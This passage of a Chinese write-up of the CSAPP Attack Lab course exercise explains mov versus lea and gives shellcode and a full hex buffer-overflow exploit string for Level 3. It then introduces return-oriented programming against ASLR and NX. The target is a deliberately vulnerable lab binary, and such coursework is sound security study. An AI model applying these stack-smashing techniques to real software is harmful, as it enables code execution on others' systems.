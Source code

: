 ```
movq 0x006044e4, %rdi
pushq $0x004017ec
retq
```

mov和lea的区别，就是mov会做一次dereference，而lea只进行计算。

只要mov的src不是一个immediate（最前面有一个$号）而是一个地址，默认都会把src这个地址dereference之后的值赋给dest。而lea就只是单纯计算之后把结果赋给dest。

对寄存器的dereference，还是打一个括号。上述强调的是immediate和memory的一个区别。

### Level 3

第三个要求我们继续利用那个漏洞跳入`touch3`，顺便携带一个字符串地址，还要跑过`hexmatch`函数的检测。

我们在基于Level 2在栈上写shellcode的思想，再在栈上储存一个字符串，然后rdi就指向这个字符串的地址，这样才能控制。

我们知道cookie值是0x59b997fa，但是我们要的是字符串且没有起始的0x。

所以我们要弄到"59b997fa"这段字符串，实际上写入的时候就得写入ASCII码了。

但是不能随便在栈里面随便找个地方存，因为后面执行`hexmatch`时，会把部分栈上内容overwrite掉，所以可以找个保险的地方，直接存到rbp紧接着的地址。

shellcode部分：

```
movq $0x5561dca8, %rdi
pushq $0x004018fa
retq
```

这里 解释一下：`0x5561dca8 = 0x5561dc78 + 0x28 + 0x8`

把它翻译成机器码，粘在字符串里：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

啊？前面不是说字符串要反过来嘛？怎么现在是正的？因为我们不是通过push来写入的。

众所周知，push进去的值是little endian储存的，所以字符串要反过来才是正确的顺序。

{% qnimg CSAPP-Attack-Lab-Writeup/success3.png %}

## Part 2: Return-Oriented Programming

第二部分相比第一部分加上了很多保护：打开了ASLR，NX Enable，把前面在栈里面写shellcode的想法杀死了。现在就可以使用ROP了。

`farm.c`中似乎是些没用的函数，不过当变成机器码并且截取一小部分时，会有意想不到的收货。这个在`attacklab.pdf`里写的很清楚。

而我们大可直接用ROPgadget来做。。。
